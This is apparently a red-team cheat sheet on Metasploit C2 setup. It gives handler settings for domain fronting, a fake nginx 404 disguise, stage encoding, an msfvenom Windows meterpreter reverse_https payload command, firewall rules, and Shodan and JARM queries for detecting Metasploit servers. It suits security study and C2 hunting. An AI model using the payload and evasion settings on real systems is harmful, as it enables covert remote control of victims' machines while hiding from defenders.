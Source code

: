 # Metasploit

## 01 - Setup

### 1.1 - Shell Handler

#### 1.1.1 - Domain Fronting

`msf exploit(multi/handler) > set HttpHostHeader afsa0dfna0sdfhq3.cloudfront.net`

`msf exploit(multi/handler) > set HttpUserAgent <User Agent>`

`msf exploit(multi/handler) > set HttpServerName nginx/1.21.2`

`msf exploit(multi/handler) > set HttpUnknownRequestResponse <html><head><title>404 Not Found</title></head><body><p><h1 align="center">404 Not Found</h1></p><br><p><hr></p><p align="center">nginx/1.21.2</p></body></html>`

#### 1.1.2 - The URI length for the stager (at least 5 bytes)

`msf exploit(multi/handler) > set StagerURILength 420`

`msf exploit(multi/handler) > set HandlerSSLCert /path/to/cert.pem`

`msf exploit(multi/handler) > set SSLVersion TLS1.2`

`msf exploit(multi/handler) > set EnableStageEncoding true`

`msf exploit(multi/handler) > set StageEncoder x64/zutto_dekiru`

`$ msfvenom -p windows/x64/meterpreter/reverse_https StagerURILength=420 HandlerSSLCert=/path/to/cert.pem`

* Optional payload advanced settings

`msf exploit(multi/handler) > set HttpHostHeader`

`msf exploit(multi/handler) > set HttpCookie`

### 1.2 - Firewall Rules

```
$ sudo mkdir /etc/iptables
$ sudo iptables -I INPUT 1 -p tcp -s 0.0.0.0/0 --dport 5432 -j DROP
$ sudo iptables -I INPUT 1 -p tcp -s 127.0.0.1 --dport 5432 -j ACCEPT
$ sudo iptables-save > /etc/iptables/rules.v4
```

- A script to autorun after reboot

```sh
sudo cat << EOF > /etc/rc.firewall-rules
#!/bin/sh -e
#
# rc.firewall-rules
#
# This script is executed at the end of each multiuser runlevel.
# Make sure that the script will "exit 0" on success or any other
# value on error.
#
# In order to enable or disable this script just change the execution
# bits.
#
# By default this script does nothing.

sudo iptables-restore < /etc/iptables/rules.v4

exit 0
EOF
```

`$ sudo chmod +x /etc/rc.firewall-rules`

## 02 - Detection

### 2.1 - Shodan

`ssl:"MetasploitSelfSignedCA"`

### 2.2 - JARM

`$ git clone https://github.com/salesforce/jarm.git`

`$ cd jarm/`

`$ python jarm.py <C2_IP> -p 4444`

`$ python jarm.py <C2_IP> -p 443`

`$ python jarm.py <C2_IP> -p 80`

## References

- [Anti-Forensics Evading Network Detection with Metasploit](https://sapphirex00.medium.com/c2-antiforensics-evading-network-detection-with-metasploit-b400342f20b1)

- [Quickpost: Metasploit User Agent Strings](https://blog.didierstevens.com/2015/03/16/quickpost-metasploit-user-agent-strings/)

- [Catching Meterpreter Callbacks](https://github.com/bats3c/shad0w/wiki/Catching-Meterpreter-Callbacks)

- [Windows Exploit with Word Macro](https://zer0day.tistory.com/303)

- [Conti TTP using Atomic Red Team and Detection Lab C2 infrastructure Hunting](https://michaelkoczwara.medium.com/conti-ttps-using-atomic-red-team-and-detection-lab-c2-infrastructure-hunting-16d159fe0ed8)

- https://labs.jumpsec.com/obfuscating-c2-during-a-red-team-engagement/

- [Chapter 11 Visualizing Metasploit (Use case related about MSGRPC which is the msfrpcd when connecting metasploit remotely)](https://goois.net/chapter-11-visualizing-metasploit-mastering-metasploit-fourth-edition.html)

- [Hunting C2 with Shodan](https://michaelkoczwara.medium.com/hunting-c2-with-shodan-223ca250d06f)

- [JARM](https://github.com/salesforce/jarm)
